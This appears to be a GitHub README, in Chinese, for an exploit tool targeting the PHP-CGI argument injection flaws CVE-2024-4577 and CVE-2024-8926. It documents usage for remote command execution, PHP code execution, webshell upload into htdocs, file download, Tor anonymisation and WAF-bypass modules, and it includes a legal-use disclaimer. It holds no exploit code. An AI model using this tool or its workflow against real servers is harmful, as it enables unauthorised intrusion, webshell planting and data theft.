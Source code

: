 # PHP-CGI Injector

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> 針對 **PHP-CGI 參數注入漏洞** 的自動化測試工具，支持 **CVE-2024-4577** 和 **CVE-2024-8926**，可進行 **命令執行、文件上傳、下載** 等操作。

---

## **📌 介紹**
本工具可用於測試 **PHP-CGI 環境中的參數注入漏洞**，並提供：
- ✅ 超酷的終端介面與動畫效果
- ✅ 自動化漏洞掃描
- ✅ 多種攻擊模式（Shell、PHP代碼執行、檔案上傳/下載）
- ✅ 預設及自訂 Payload 組合
- ✅ Tor 流量隱藏模式
- ✅ 多種 Bypass WAF 繞過模組
- ✅ 支援輸出編碼自動轉換
- ✅ 強制漏洞利用模式（即使未掃描出漏洞也可啟動）
- ❌ 不支援泡咖啡，但支援烘烤 WAF。
- ❌ 不支援幫你打報告、追女友或考上研究所。
- ❌ 不支援社交工程，請自行面對人類。

---

## **📜 免責聲明**
**本工具僅限於合法測試與學術用途，請勿用於未經授權的系統！**
> **⚠️ 非法使用將承擔法律責任！**

本工具僅供：
- 🔹 **企業紅隊滲透測試**
- 🔹 **CTF 安全研究**
- 🔹 **個人安全學習**
- 🔹 **其他取得合法授權之安全測試**

---

## **📥 安裝依賴**
本工具依賴以下 Python 套件，請先安裝：
```bash
pip install -r requirements.txt
```
或者手動安裝：
```bash
pip install requests requests-tor chardet urllib3 rich
```

---

## **🛠️ 使用方法**
### **📌 基本用法**
```bash
python exploit.py -u URL [--timeout sec] [--delay sec] [--log] [--verbose] [--payload PAYLOAD] [--bypass] [--tor] [--no-effects] [--force] [--cgipoint PATHS...]
```
範例：
```bash
python exploit.py -u http://example.com --timeout 30 --payload 2 --log --tor --verbose
python exploit.py -u http://example.com --bypass --force
python exploit.py -u http://example.com --cgipoint /php-cgi/php-cgi.exe /cgi-bin/php
```

### **📌 參數選項**

| 參數                  | 說明                             | 範例                    |
|-----------------------|----------------------------------|-------------------------|
| `-u` 、 `--url`       | 指定目標網址                     | `-u http://example.com` |
| `--timeout sec`       | 設定請求超時（0為無限）          | `--timeout 30`          |
| `--log`               | 自動記錄shell命令                | `--log`                 |
| `--payload`           | 指定或自訂Payload組合            | `--payload 2`           |
| `--tor`               | 透過Tor發送請求                  | `--tor`                 |
| `--verbose`           | 顯示詳細訊息                     | `--verbose`             |
| `--bypass`            | 啟用WAF繞過模式                  | `--bypass`              |
| `--force`             | 強制進入漏洞利用模式             | `--force`               |
| `--cgipoint PATHS`    | 指定特定CGI路徑進行測試         | `--cgipoint /path`      |
| `--delay sec`         | 每次請求之間的延遲秒數          | `--delay 1.5`           |
| `--no-effects`        | 關閉所有動畫與延遲效果           | `--no-effects`          |
---

## **📌 操作模式**
當腳本找到漏洞後，會顯示選單：
```
╭────────────  Exploit 模式選單  ────────────╮
│ 當前目標：http://example.com/              │
│ 當前注入點：/php-cgi/php-cgi.exe           │
│ 漏洞編號：CVE-2024-4577                    │
╰────────────────────────────────────────────╯
1) 🧪 Shell模式
2) 🛠️ PHP自訂端模式
3) 📤 上傳檔案
4) 📥 下載檔案
5) 🎯 切換攻擊目標
6) ⚙️ 設定參數
7) ❌ 離開程式
>>
```

---

## **📌 模式詳解**
### **1️⃣ Shell 模式**
執行 **系統命令**：
```
shell> whoami
```
📂 **儲存輸出**
```
shell> whoami --save
```
```
shell> whoami --save C:\output\whoami.txt
```

---

### **2️⃣ PHP 自訂模式**
執行 **自訂 PHP 代碼**：
```
phpinfo();
EOF
```
📂 **儲存輸出**
```
phpinfo();
EOF --save
```
```
phpinfo();
EOF --save C:\output\info.html
```

---

### **3️⃣ 上傳檔案**
```
本地檔案路徑：C:\test\shell.php
目標完整路徑：
[*] 已自動設定上傳路徑為: C:/xampp/htdocs/shell.php
```
📂 **手動指定路徑**
```
目標完整路徑：C:\xampp\php\shell.php
```

---

### **4️⃣ 下載檔案**
```
遠端檔案路徑：C:\xampp\htdocs\index.php
```
📂 **檔案下載後儲存於 `download/`，若有重複，會自動添加編號**
```
[*] 檔案下載完成，儲存在 download/index.php
```

---

### **5️⃣ 切換攻擊目標**
```
輸入新目標URL: http://newtarget.com
```
🔹 **將重新測試漏洞**

---

### **6️⃣ 參數切換**
```
[⚙️ 利用階段參數設定選單]

1) 切換荷載 Payload        1
2) 繞過模組 Bypass         未選擇
3) 等待時間 Timeout        10 秒
4) 請求延遲 Delay          0 秒
5) 自動紀錄 Log            關閉
6) 詳細模式 Verbose        關閉
7) 動畫效果 Effects        開啟
8) 強制利用 Force          關閉
9) 儲存並返回 Exploit 選單
```
---

## 📌 Bypass WAF 繞過模組

提供以下繞過策略：
- CGI路徑變形
- Payload前後添加無效字符
- 替換 `php://input` 為其他寫法
- 添加特定或隨機HTTP頭
- 混淆POST內容
- 隨機打亂Payload順序
- 自訂繞過腳本，格式請看tamper_example_template.txt
---

